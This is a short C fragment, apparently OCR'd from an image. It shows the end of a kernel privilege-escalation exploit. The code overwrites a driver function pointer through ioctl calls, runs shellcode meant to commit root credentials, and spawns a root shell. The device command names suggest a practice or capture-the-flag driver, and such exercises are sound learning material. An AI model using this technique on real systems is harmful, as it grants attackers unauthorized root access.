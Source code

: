```c
    // overwrite function pointer
    r = ioctl(dev, CMD_PWN_WRITE, &function);
    if(r != 0) 
        err(1, "ioctl write failed");

    // execute shellcode
    ioctl(dev, CMD_PWN_EXEC, x64_SYS_IOCTL_2_COMMIT_CREDS);
    
    if(getuid() == 0 && getgid() == 0)
        system("/bin/sh");

    close(dev);
    return 0;
}
```
 